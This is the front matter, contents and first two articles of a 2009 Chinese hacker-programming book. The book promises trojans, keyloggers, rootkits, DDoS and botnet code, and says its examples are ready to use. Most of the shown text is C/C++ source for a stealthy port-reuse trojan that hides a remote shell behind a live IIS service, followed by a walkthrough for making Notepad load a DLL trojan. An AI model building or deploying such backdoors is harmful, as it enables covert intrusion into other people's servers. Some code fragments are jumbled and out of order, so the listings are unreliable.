# 黑客防线VC专辑

# 全方位、全实例解析黑客VC编程技术

- 以VC为编程平台，以各种实用的网络安全、黑客工具编写为主题。
- 内容涵盖木马后门类、扫描监控类、线程注入类、系统核心类、网络协议类和杀毒工具类程序编写。
- 120余篇编程实例解析，将黑客VC编程技术系统地呈现给读者。

### 黑客防线 2009

## 黑客编程VC专辑

《黑客防线》编辑部 编


光盘内含120余篇代码，全部经过严格调试。

人民邮电出版社  
POSTS & TELECOM PRESS

### 黑客防线 2009

### 黑客编程 VC 专辑

《黑客防线》编辑部 编


人民邮电出版社  
北京

### 图书在版编目（CIP）数据

黑客防线. 2009. 黑客编程VC专辑 / 《黑客防线》编辑部编. — 北京：人民邮电出版社，2009.6  
ISBN 978-7-115-20554-4

I. 黑…  II. 黑…  III. 计算机网络--安全技术  IV. TP393.08

中国版本图书馆CIP数据核字（2009）第056687号

### 内容提要

本书独辟蹊径，专精于黑客编程实例，用流行的VC为编程平台，以各种实用的网络安全、黑客工具编写为主题，以功能主线为基础，涵盖7大类内容，包含木马后门类、扫描监控类、线程注入类、系统核心类、网络协议类、杀毒类和其他类程序编写，专注于它们的具体实现技术。

本书完全以实例为引导，代码都经过严格测试，并经过实际的编译测试，保证读者可以直接使用。

本书适合网络安全爱好者、程序员、高级网络管理员阅读。

**声明：**本书所讲述的内容仅做学习之用，切勿用于非法用途。

### 《黑客防线》2009黑客编程VC专辑

- 编：《黑客防线》编辑部
- 责任编辑：马雪伶
- 人民邮电出版社出版发行（北京市崇文区夕照寺街14号）
- 邮编：100061
- 电子邮件：315@ptpress.com.cn
- 网址：http://www.ptpress.com.cn
- 北京隆昌伟业印刷有限公司印刷

- 开本：787×1092 1/16
- 印张：25
- 字数：693千字
- 印数：1-6000册
- 2009年6月第1版
- 2009年6月北京第1次印刷

ISBN 978-7-115-20554-4/TP

定价：48.00元（附光盘）

读者服务热线：（010）67132692　印装质量热线：（010）67129223  
反盗版热线：（010）67171154  
广告经营许可证：京崇工商广字第0021号

#### 前言

当今时代的计算机功能十分强大，已经改变了太多传统的生活、工作方式。但是，没有程序的计算机就等于一堆废铁，不会理会我们对它下达的“命令”。于是，我们要驯服它，只有通过一种方式——编程，这也是我们目前和计算机沟通的唯一方式。在种类纷繁复杂的高级编程语言中，随着技术的发展，经过时间的积淀，接近底层的高级语言VC脱颖而出，它不但易学易用，而且编程效率极高，这也是我们选择VC作为本书编程平台的根本原因。

现在的编程已经成为一种技能，很多人都会用一些基本的编程语言来实现自己需要的功能。但是高级的编程却越来越重要，在现实社会中的价值也日渐提高，特别是基于各种系统核心函数的应用编程技术更是备受关注。实际上，系统核心函数的编程运用，最高级的就是包含黑客攻击编程、网络安全防护编程在内的黑客编程！时下，黑客编程已经成为衡量编程技术实力的标杆之一，但其本质却并没有那么神秘！

在各种编程思路、原理、框架类书籍众多的情况下，本书独辟蹊径，专精于黑客编程实例，用流行的VC为编程平台，以各种实用的网络安全、黑客工具编写为主题，包含木马后门类、扫描监控类、线程注入类、系统核心类、网络协议类和杀毒类程序编写，专注于它们的实例实现技术，并且书中所有代码都经过严格测试，所有代码均经过实际的编译测试，保证读者可以直接使用。

为了将高级黑客编程技术系统地呈现给读者，本书以功能主线为基础，涵盖7大类内容，共120余个黑客编程的具体实例，每一个实例均配合有详细的解说和源代码分析。

木马后门类内容全面介绍了端口复用木马、DLL木马、反弹穿墙木马、ActiveX启动和注入IE木马、Downloader下载器、3389后门、魔兽盗号木马、经典NameLess后门等实例，并深入讲解了最新的手机远程控制电脑和高级Rootkit开发，为读者呈献一本木马后门编程的实例宝典！

系统核心类内容包含SSDT挂钩、Hook API、Rootkit深入分析、API拦截、内核文件隐藏和内核键盘记录等内容，还包含最新的内核状态下拦截注册表操作防范木马、内核方法实现进程保护等防护技术，以达到攻防一体的效果。

本书将杀毒软件、杀毒程序的编写整理成集，让以往大家觉得无比神秘的杀毒类软件编程不再神秘。本书杀毒类内容包含病毒专杀工具、流氓软件专杀工具、蠕虫专杀工具等常见流行安全工具的编写方法，同时还有完整的大型杀毒软件的整体编程规划，绝对物超所值！

除此以外，扫描监控类、线程注入类、网络协议类都包含有丰富的内容，具体的实例期待读者通过阅读本书自己发掘。

本书所讲述的内容仅做学习之用，切勿用于非法用途。  
通过阅读本书，希望读者能够树立良好的网络安全意识，提高网络安全防御水平。

### 目录

## 木马后门类

- VC实现端口复用木马 ..... 2
- 巧用WM_CREATE消息隐藏DLL木马 ..... 6
- VC编写精小反弹穿墙木马 ..... 8
- 编程实现木马的ActiveX启动和注入IE的启动方式 ..... 13
- 利用C++让木马也能修改桌面背景 ..... 16
- 木马编程DIY之系统服务 ..... 17
- 木马编程DIY之单实例运行 ..... 21
- 木马编程DIY之注册表管理 ..... 23
- 木马编程DIY之线程守护 ..... 27
- 木马编程DIY之服务启动技术 ..... 29
- 编程实现手机远程控制电脑 ..... 33
- 为反弹远控服务端减肥 ..... 37
- 打造自己的VNC后门生成器 ..... 40
- B/S模式远程控制简单实现 ..... 43
- 编写Downloader制造机 ..... 47
- 自己编程抓“肉鸡” ..... 48
- 自己编程抓“肉鸡”——将捕获消息进行到底 ..... 51
- 基于反向连接的木马编写思路 ..... 53
- 3389后门自己造 ..... 54
- 编程实现修改注册表完成程序自启动 ..... 56
- Windows 2003下的进程隐藏 ..... 58
- 服务级后门自己做 ..... 61
- 利用远程线程技术制造隐身程序 ..... 65
- 看我双兔傍地走——编程实现木马合并 ..... 68
- 用原始套接字创建穿墙木马 ..... 72
- 让木马藏得更深——线程注射技术新发展（上） ..... 76
- 让木马藏得更深——线程注射技术新发展（下） ..... 81
- 穿过防火墙的Shell后门 ..... 83
- 捆绑任意可执行文件做木马 ..... 85
- 魔兽盗号木马DIY …… 88
- 经典重现之NameLess后门技术全面分析 …… 93
- 完整B/S后门开发实战 …… 96
- VC编写获取服务端系统信息的C/S型木马 …… 104

## 扫描监控类

- 构造自己的ARP扫描和欺骗工具 …… 108
- 文件监控开发过程 …… 110
- 利用WinPcap编写驱动Sniffer …… 114
- 直接访问键盘控制芯片获取键盘记录 …… 117
- 小波变换+线性预测+LZ77算法实现极速屏幕监控 …… 120
- 自己动手编写SQL注入漏洞扫描器 …… 126
- 用原始套接字实现网络入侵检测系统 …… 129
- 一个简易网络嗅探器的实现 …… 135
- 编写调用门键盘记录程序 …… 137
- 自己编写IP包监视工具 …… 141
- 四种方法实现VC枚举系统当前进程 …… 144
- 编写无驱动的Sniffer …… 147
- 键盘监视器原理及反窥探技术 …… 149
- 如虎添翼——给嗅探器加上数据还原！ …… 154
- 打造自己的程序行为监视器 …… 160

## 线程注入类

- 基于EPROCESS结构中双向链表的进程检测方法 …… 166
- 卸载远程进程中的DLL …… 168
- 进程的冻结与解冻 …… 170
- 植入执行文件穿越软件防火墙 …… 172
- 一种基于PspCidTable的进程检测方法 …… 174
- 进程隐藏技术解析——DLL远程线程插入主程序 …… 177
- 编程实现远程Shell的获取 …… 182
- 编程实现线程插入后门防范 …… 186
- SQL注入步步高——打造自己的扫描+注入综合工具 …… 189
- 无进程式线程插入穿墙技术实现 …… 194
- 搞定远程进程注入DLL——以ShellCode之名 …… 199

## 系统核心类

- 利用Hook API实现进程守护 …… 204
- 详解挂钩SSDT …… 206
- 浅窥导入函数及输出导入表的内容 …… 209
- Ring3下安全获取原始SSDT地址 …… 211
- Ring0中Hook SSDT防止进程被结束 …… 213
- Ring0下恢复SSDT Shadow …… 216
- 让一切输入都难逃法眼——驱动级键盘过滤钩子的实现 …… 220
- 内核状态下拦截注册表操作防范木马 …… 224
- 妙不可言——挂接ExitWindowsEx …… 227
- NT操作系统下的Rootkit技术初探 …… 228
- 内核级编程实践之进程检测 …… 232
- Message Hook攻与防 …… 234
- API拦截——实现Ring3全局Hook …… 238
- 内核方法实现进程保护 …… 242
- 感染PE文件加载DLL …… 249
- 在内核驱动中检测隐藏进程 …… 254
- 主动防御之注册表保护 …… 255
- Ring3下终止江民KV2008 …… 259
- Rootkit文件隐藏技术实现 …… 262
- 编程打造自己的SSDT恢复工具 …… 265
- 基于线程的隐藏进程检测 …… 271
- 再谈内核及进程保护 …… 274
- 用开源反汇编引擎检测inline hook …… 277
- Rootkit端口隐藏实现 …… 279
- Ring0中强行结束进程 …… 283
- 直接调用NTFS文件驱动检测隐藏文件 …… 285
- 用文件系统过滤驱动实现文件隐藏 …… 289
- Inline hook KeyboardClassServiceCallback实现键盘记录 …… 291
- 恢复Ring0下的IAT与EAT hook …… 295

## 网络协议类

- 套接字编程实现网页内容的获取 …… 301
- 编程实现DRDoS攻击 …… 302
- 邮件群发器的分析与实现 …… 304
- DNS放大攻击原理、实现与防御 …… 306
- 再谈邮件服务器的编写 …… 307
- 基于SMTP/POP3协议的新型僵尸网络实现 …… 311
- IRCBOT，由协议分析到编程实现 …… 315
- Windows环境下实现原始UDP数据包发送 …… 319
- 教你实现TFTP协议 …… 322
- 基于WinPcap的原始数据包发送 …… 325
- NAT穿透之NAT类型检测 …… 327
- 网络数据包捕获与发送的多重实现 …… 330
- ARP Spoof&DoS攻击编程实战 …… 334

## 杀毒类

- 病毒专杀工具编写DIY …… 339
- 编写自己的流氓软件专杀工具 …… 342
- 菜鸟也会编写杀毒软件 …… 344
- 浅谈蠕虫病毒的特性 …… 346
- 自己编写ANI蠕虫专杀工具 …… 347
- 仿制“熊猫烧香”，编程实现病毒特性 …… 349
- 手把手教你编写威金病毒清除工具 …… 350
- 打造专版的还原精灵密码读取工具 …… 353
- 检测PE文件的有效性 …… 354
- 枚举注册表搜索病毒痕迹的实现思路 …… 356
- 简单打造蠕虫病毒专杀工具 …… 358

## 其他类

- 编写自己的搜索引擎查找用户QQ群 …… 362
- VC轻松打造Spy++ …… 364
- Office Spy DIY …… 370
- 签号研究怎能缺少新浪UC …… 372
- 编程PK迅雷QQ暴力广告 …… 374
- 也谈VC打造U盘防火墙 …… 376
- 利用WinInet和多线程实现实时显示下载进度条 …… 378
- 使用过滤驱动打造防火墙 …… 381
- 图标大挪移——资源更新法更新程序图标 …… 383
- DES加密软件的实现 …… 385

## 本合同书

### VC实现端口复用木马


文/图 雪山 [S.S]

不知大家是否还记得《黑客防线》杂志上曾发表过的《编程打造cmdshell客户端》这篇文章？那篇文章主要是讲一个命令行下网络通信的模型，我起初是为编写自己的端口复用木马服务的，下面我就把这个不影响原服务的端口复用木马继续完成吧！

其实想实现端口复用很容易，在创建了一个Socket之后，用setsockopt设置Socket的SO_REUSEADDR属性就可以了。当然，要防止别人复用你的端口也很简单，用setsockopt指定SO_EXCLUSIVEADDRUSE就可以独占端口地址了。

我在开始编写前下载了一个wxhshell，它是加了端口复用功能的WinShell。我自己试了一下它的功能，发现在Windows XP+SP2+IIS5.1下可成功，在Windows 2003+IIS6.0下没有成功。而在Windows XP下正常工作时IIS就不能正常工作了，这要是放在“肉鸡”上，别人的网页都访问不了，那管理员就会轻易发现问题。因此，这篇文章的重点就在这里——正确区分木马访问和正常的IIS访问，然后再分别加以处理。

设计思路：先获得本机连接外网的最佳IP，绑定此IP后，把127.0.0.1留给原服务。因为是TCP连接，所以只在连接起初判断就行了。就在开始通信前接收连接方的一串定长字符串，初步判断是不是使用木马访问，如果初步判断是的话，再进行二路握手；不是则开启新线程进行客户端到本地服务的数据交换；如果二路握手成功，则开启新线程执行木马功能，不成功就断开此连接。

需求：需要专门的客户端进行连接，这里用我上次写的cmdshell客户端来改造，思路比木马的要简单，连接后进行判断，如果对方不是自己的木马则退出。

木马适用环境：任何对外开放了服务且可端口复用的服务器，如果有防火墙的话，就要用到远程线程注入（这里不做讨论）。

下图所示是木马工作的整个流程图。



建议准备编写或者正在编写一些工具的朋友，像这样把每个模块分开设计，对整个程序的效率可能都会有提高哦。下面我们就从绑定外网IP开始吧！

1. 绑定IP用VC编程实现的话，第一步肯定是获取本机IP了，这个网上的可用代码不少。不过，要是获取最佳外网IP，又该如何实现呢？具体代码如下：

```cpp
#define DEFAULT_DESTINATION "202.115.32.45"
DWORD GetBestip()
// 获得本机连接外网的IP地址
{
    PMIB_IPADDRTABLE pAddrTable(NULL);
    PMIB_IPADDRROW   pAddrRow(NULL);
    ULONG            ulSize(0);
    DWORD            ret = INVALID_ADDRESS;
    char *           pBuffer = NULL;
    DWORD            dwBestIndex = INVALID_ADDRESS;

    // 获得最佳IP接口的索引
    DWORD            dwResult;
    dwResult = GetBestInterface(inet_addr(DEFAULT_DESTINATION), &dwBestIndex);
    if (dwResult != NO_ERROR)
        ...
}
```

## 木马后门类

```cpp
// 有错误，返回不可用地址
return INVALID_ADDRESS;
}

// 获得本机所有的IP列表
GetIpAddrTable((PMIB_IPADDRTABLE)(char*)pBuffer,
&ulSize, TRUE);
pBuffer = new char[ulSize];
dwResult = GetIpAddrTable((PMIB_IPADDRTABLE)(char*)pBuffer, &ulSize, TRUE);
if ((dwResult == NO_ERROR))
{
    pAddrTable = (PMIB_IPADDRTABLE)(char*)pBuffer;
    for (DWORD x = 0; x < pAddrTable->dwNumEntries; x++)
    {
        pAddrRow = (PMIB_IPADDRROW)&(pAddrTable->table[x]);
        // 如果和最佳索引相等，则返回其地址
        if ((pAddrRow->dwIndex == dwBestIndex))
        {
            ret = pAddrRow->dwAddr;
            delete [] pBuffer;
            return ret;
        }
    }
}

delete [] pBuffer;
return INVALID_ADDRESS;
```

我们利用这段代码就可以获取连接外网的最佳IP地址。首先确定一个本机要连接的DEFAULT_DESTINATION，这里只要定义为任何一个外网地址即可；再通过GetBestInterface获得最佳IP接口的索引值，这样取IP列表里面对应位置的IP地址就可以了。

2. 获取外网IP。由于外部的客户连接到指定端口时，就会自动连到我们的木马上来，因此接下来就是最重要的一步——判断是否为木马请求。具体代码如下：

```cpp
#define OWN_SIGN "ccuclark\n"
// 自身木马标志
// 客户端向校块
int Wxshell(SOCKET wsl)
{
    SOCKET wsh;
    struct sockaddr_in client;
    DWORD myID;
    int count;
    char cmd[5];
    while(nUser<MAX_USER)
    {
        char myFlag[32];
        ThreadInfo threadInfo;
        int nSize=sizeof(client);
        ...
    }
}
```

```cpp
// 等待连接
wsh=accept(wsl, (struct sockaddr *)&client, &nSize);
if(wsh==INVALID_SOCKET) return 1;
// 以"\n"为终止符接收客户端发送的验证字符串
count=0;
while(count<32)
{
    if(recv(wsh, cmd, 1, 0)==SOCKET_ERROR)
    {
        closesocket(wsh);
        return FALSE;
    }
    myFlag[count]=cmd[0];
    if(cmd[0]==0x0a)
    {
        myFlag[count]='\n';
        myFlag[++count]=0;
        break;
    }
    count++;
}

// 初步判断是否为木马请求
if (strncmp(myFlag, OWN_SIGN, sizeof(OWN_SIGN))==0)
{
    uLong loopIP=inet_addr("127.0.0.1");
    SOCKET loopback=Make_Connection(loopIP, 80, 120);
    if (loopback<0)
    {
        closesocket(wsh);
        continue;
    }

    // 为新线程复制参数建立事件
    ownevent = CreateEvent(NULL, FALSE, FALSE, NULL);
    send(loopback, myFlag, count, 0);
    threadInfo.rawSock=loopback;
    threadInfo.tcpSock=wsh;
    CreateThread(0, 0, doReTranToHost, &threadInfo, 0, &myID);

    // 等待新线程复制完参数再继续向下执行
    if(WaitForSingleObject(ownevent, INFINITE)==WAIT_FAILED)
    {
        continue;
    }
    CloseHandle(ownevent);
    continue;
}

// 初步判断是木马请求，再执行三路握手，失败则关闭连接
if(connestab(wsh)==FALSE){closesocket(wsh);continue;}
// 握手成功，开启木马功能执行线程
handles[nUser]=CreateThread(0, 1000,
(LPTHREAD_START_ROUTINE)TalkWithClient,(VOID*)wsh,0,&myID);
if(handles[nUser]==0)
    closesocket(wsh);
```

```c
else
    nUser++;
}
WaitForMultipleObjects(MAX_USER, handles, TRUE, INFINITE);
return 0;
}
```

```c
}
count++;
}
// 验证对方是否为可信用户
if (((Pconninfo)buf)->come != info.go % OWN_KEY) return FALSE;
info.come = ((Pconninfo)buf)->go % OWN_KEY;
info.go = 'o' + 'k';
infop = &info;
// 验证成功，发送第二路木马协议
send(client, (char *)infop, sizeof(info)-3, NULL);
return TRUE;
}
```

这是经过我修改后的客户端句柄模块，`if (strncmp(myFlag, OWN_SIGN, sizeof(OWN_SIGN)) != 0)` 用来初步判断客户是不是木马请求。起初我只是想用这句来判断，但这个简单判断可能会让对本地服务的请求误转到木马执行模块里，所以加了后面的二路握手。加上之后对程序效率并没有什么影响，只是为了防止巧合的发生。`if (connestab(wsh)==FALSE){closesocket(wsh); continue;}` 这句是在初步判断之后和客户间的二路握手，如果成功就可以执行木马模块，不成功就关闭连接。下面就是木马里面的 `connestab()` 函数。

其中，`OWN_KEY` 为自定义的密钥，如果客户端和木马端的密钥不同，握手就不会成功。`conninfo` 为自定义的木马协议结构体，`char a` 是作为协议单元结束符。`send(client, (char *)infop, sizeof(info)-3, NULL)` 中 `sizeof(info)-3` 是因为 VC 编译时数据按 4 字节对齐，而 `char` 只有 1 字节，故需要减去填充字节得到真实大小。

```c
#define OWN_KEY 346   // 密钥
// 自定义握手协议结构体
typedef struct conninfo {
    int go;
    int come;
    char a;
} *Pconninfo;

// 二路握手协议
BOOL connestab(SOCKET client)
{
    char buf[256], cmd[5];
    int count;
    conninfo info;
    Pconninfo infop = &info;
    info.a = '\n';
    int a = (int)infop;
    info.come = 68;
    info.go = AvgerageRandom(1000000, 9999999);
    // 发送第一路木马协议
    send(client, (char *)infop, sizeof(info)-3, NULL);
    // 接收对方回应
    count = 0;
    while (count < 256) {
        if (recv(client, cmd, 1, 0) == SOCKET_ERROR) {
            closesocket(client);
            return FALSE;
        }
        buf[count] = cmd[0];
        if (cmd[0] == 0x0a || cmd[0] == 0x0d) {
            buf[count] = 0;
            break;
        }
    }
}
```

握手过程在注释里已比较清楚：第一路发送自己的标识符 68 和随机整数 A1；然后接收客户端回应，其中有 B1（A1 对客户端密钥求模结果）和客户端随机数 B2；木马端验证 B1 与自身计算结果是否一致。一致则第一路成功，进行第二路握手：用 B2 对自身密钥求模得到 A2a，并把 `o`、`k` 的 ASCII 组合放入 A2b，一起发给客户端；若对方不关闭连接，则说明二路握手成功。

验证完成后即可执行木马功能或数据转发。木马功能仍是 winshell 模块；数据转发模块采用 select 模型，与 `cmdshell` 客户端数据交换代码大同小异，下面是其源代码片段。

```c
DWORD WINAPI readwrite(SOCKET tr, SOCKET tc)
{
    char bufc[40960], bufr[40960];
    char* recvbufpc;
    char* recvbufpr;
    long recvr, recvc;
    FD_SET ding, ding1;
    int err, ret;
    SOCKET clientr = tr, clientc = tc;
    // 告诉主线程参数复制完毕
    SetEvent(ownevent);
    recvr = recvc = 0;
}
```

```c
struct timeval TimeOut;
TimeOut.tv_sec = 0;
TimeOut.tv_usec = 1000;
FD_ZERO(&ding);
FD_ZERO(&ding1);
FD_SET(clientc, &ding);
FD_SET(clientr, &ding);
while (FD_ISSET(clientc, &ding) && FD_ISSET(clientr, &ding)) {
    ding1 = ding;
    int Er = select(16, &ding1, 0, 0, &TimeOut);
    if (Er == SOCKET_ERROR) {
        FD_CLR(clientc, &ding1);
        FD_CLR(clientc, &ding);
    }

    if (FD_ISSET(clientc, &ding1)) {
        ret = recv(clientc, bufc, sizeof(bufc), 0);
        if (ret == SOCKET_ERROR || ret == 0 || ret == WSAECONNRESET) {
            FD_ZERO(&ding);
        } else {
            recvc = ret;
            bufc[ret] = '\0';
            recvbufpc = bufc;
        }
    }

    if (FD_ISSET(clientr, &ding1)) {
        ret = recv(clientr, bufr, sizeof(bufr), 0);
        if (ret == SOCKET_ERROR || ret == 0 || ret == WSAECONNRESET) {
            FD_ZERO(&ding);
        } else {
            recvr = ret;
            bufr[ret] = '\0';
            recvbufpr = bufr;
        }
    }

print:
    if (recvr) {
        ret = send(clientc, recvbufpr, recvr, 0);
        if (ret > 0) {
            recvbufpr += ret;
            recvr -= ret;
        } else {
            err = WSAGetLastError();
        }
    }
}
```

```c
if (err != WSAETIMEDOUT) {
    FD_ZERO(&ding);
    recvr = 0;
}

if (recvc) {
    ret = send(clientr, recvbufpc, recvc, 0);
    if (ret > 0) {
        recvbufpc += ret;
        recvc -= ret;
    } else {
        err = WSAGetLastError();
        if (err != WSAETIMEDOUT) {
            FD_ZERO(&ding);
            recvc = 0;
        }
    }
}

Sleep(1);
if (recvr || recvc) goto print;
closesocket(clientr);
closesocket(clientc);
return 1;
```

这里客户端还需要一个握手的函数，其实质和木马里面的差不多。我就不单独拿出来讲了，大家自己琢磨一下即可明白。

设计整个木马和客户端要涉及大量的代码，我这里只介绍了一些比较关键的代码，其他的大家可以自己分析和修改。在这个木马里面，我觉得数据转发函数比较合理和稳定，我模仿 LCX 的功能写的 PortMap 主要就是用的这个函数。而二路握手则没有设计好，首先这个密钥空间太小，很容易爆破出来；其次，还有可能出现密钥不同都可以通信的情况，这个我亲自试过，我把密钥一个设置为 3，一个为 5，试验了 10 次，里面有一次可以握手成功。当然，我写这篇文章的目的不是为了做个东西出来，主要是提出一个思路，大家可以在上面任意地拓展，既可以自己设计出更好的握手协议，也可以通过参数来传递所要绑定的端口或密钥，等等。

编写这个木马着实花了我不少时间，由于本人的编程功底不是很强，所以大部分时间都是花在 VC 实现上面。

> 【本文涉及的代码（程序），请见随书光盘】

## 巧用WM_CREATE消息隐藏DLL木马


文/图【黑防VIP】风雾王策

这个学期我有一门选修课是关于 PE 文件格式的，每讲一个专题后，老师都会布置一篇作业。这不，第 5 次作业要求以记事本为例，添加一个菜单，点击后弹出自己的姓名、学号。经过一番折腾，我成功地完成了作业。主要思路是这样的：

- 用 ExeScope 新添一个菜单，设好其 ID；
- 利用消息处理函数为该 ID 添加代码，将要实现的功能封装成 DLL 文件；
- 在输入表中加入 DLL 中的导出函数；
- 用 OllyDbg 找到原消息处理函数的入口，调用新添加的导入函数。

后来，无意中看到《黑客防线》杂志上的《隐藏的木马启动方法》和《捆绑任意可执行文件做木马》两篇文章后，灵光一闪，想到可以在记事本中加载自己的 DLL 木马。我在查阅相关资料时，发现了 WM_CREATE 消息，终于跟先前的思路串联了起来，于是就有了本文。

首先我们先看一下 WM_CREATE 的介绍。Windows 是一个消息驱动的 OS，当窗口创建时，WM_CREATE 被发送给窗口处理过程，等于是通知窗口：我（系统）已经把你创建了，你可以初始化自己了。通常窗口处理过程会加载必要的资源，比如创建子窗口等，可以定制这个消息，完成特殊的初始化操作。

既然它可以完成一些初始化工作，那我们何不在这个初始化过程当中加入自己的 DLL 木马，并且这个消息是在窗口创建时发送的，检测到这个消息就可以执行我们的 DLL 木马，不用加入任何菜单，因此改变的只是在原来的初始化工作中加载了我们的 DLL 木马，故隐藏性较强。

通过分析，我的基本思路是在记事本的消息处理之前加上自己的消息处理函数来达到添加功能的目的。我们知道，Windows 的程序主要是在消息处理过程中增加功能的，而添加的消息处理功能我们可以将其放在动态链接库中，动态链接库中有我们的 DLL 木马代码。这样，整个思路就十分清楚了。

下面我就以弹出一个对话框为例，简单介绍一下整个过程。用 VC++6.0 新建一个动态链接库工程，工程名为 horse，添加一个 lk.cpp 文件，其代码如图1所示。

```cpp
#include <windows.h>

void _cdecl LoadDll(const DWORD reversed, HWND hWnd, UINT msg, WPARAM wParam, LPARAM lParam)
{
    switch(msg) {
    case WM_CREATE:
        MessageBox(hWnd, "This is DLL BackDoor", "Just a test", 0x40);
        break;
    }
}
```

图1

再新建一个 horse.def 文件，将其添加到工程中，该 def 文件的内容如图2所示。

```def
LIBRARY horse
EXPORTS
LoadDll @1
```

图2

编译后生成目标 horse.dll 文件，用 VC++ 自带的 Depends.exe 查看，可以看到有一个导出函数，如图3所示。

| Ordinal | Hint | Function | Entry Point |
|---|---|---|---|
| 1 | 0 | LoadDll | 0x00001005 |

图3

那么，我们该如何利用这里的导出函数呢？Follow me!

用 LordPE 将其导入到输入表中，将生成的动态链接库程序 horse.dll 复制到 Notepad.exe 所在目录下，运行 LordPE，在 LordPE 中打开 Notepad.exe，添加刚刚生成的 horse.dll 文件和其中的 LoadDll 函数，点击确定，如图4所示。添加成功后，记下新添加函数的虚拟地址 00013014，保存退出，如图5所示。

在 OllyDbg 中打开 Notepad.exe，在命令行中设置断点 `bpx RegisterClassExW` 并回车，然后按 F9 运行程序，此时程序会断下，查看堆栈框内容，如图6所示。



图4



图5



图6

其中，0007FDF8 处的 01003449 地址就是程序过程处理地址。此时断点附近的反汇编代码如图7所示。

